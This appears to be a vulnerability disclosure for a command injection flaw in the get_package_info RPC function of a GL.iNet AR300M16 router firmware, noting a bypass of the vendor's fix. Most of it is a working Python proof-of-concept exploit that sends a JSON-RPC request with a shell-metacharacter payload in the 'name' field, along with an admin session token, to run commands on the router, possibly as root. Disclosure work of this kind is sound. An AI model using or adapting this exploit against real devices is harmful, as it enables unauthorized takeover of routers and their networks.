


Submittion Date: 2025.4.18  
Vendor: GL-AR300M16  
Version: 4.3.11   
Firmware: openwrt-ar300m16-4.3.27-0514-1747192506.bin

Download Link: https://dl.gl-inet.cn/router/ar300m16/stable  

The function `get_package_info` handles the critical parameter string `name`without proper sanitization or validation, which leads to a **command injection vulnerability**. By injecting malicious shell metacharacters into the `name`field, an attacker can execute arbitrary system commands with the privileges of the web server process (often root). This can result in full system compromise, including unauthorized access, data theft, or persistent backdoor installation. 



The vendor modified the format string to enhance security, but command injection can still be achieved by means of a bypass.


Exploit the vulnerability by sending a carefully constructed HTTP request

```
import requests

Target URL (Note: the URL needs to be adjusted according to the actual situation)
url = "http://192.168.2.10/rpc"
#Request headers (exactly match the headers in burpsuite)

headers = {
    "Host": "192.168.2.10",
    "Content-Length": "247",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Accept": "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36",
    "Origin": "http://192.168.2.10",
    "Referer": "http://192.168.2.10/",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "Admin-Token=wb1H7fURGJM4dMpIsTQDZM50GNfgmqGd",#The cookie needs to be modified according to the current admin token
    "Connection": "keep-alive"
}

#Request body (json-rpc command injection payload)

data = {
    "jsonrpc": "2.0",
    "method": "call",
    "params": [
        "wb1H7fURGJM4dMpIsTQDZM50GNfgmqGd",
        "plugins",
        "get_package_info",
        {
            "name": "7'; echo 123 > /www/pwntest.txt;'"
        }
    ]
}

Send post request

try:
    response = requests.post(
        url,
        headers=headers,
        json=data,
        verify=False 
    )
    
    # 输出响应信息
    print(f"Status Code: {response.status_code}")
    print("Response Headers:")
    print(response.headers)
    print("\nResponse Body:")
    print(response.text)
    
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")
```

The exploitation is shown below.


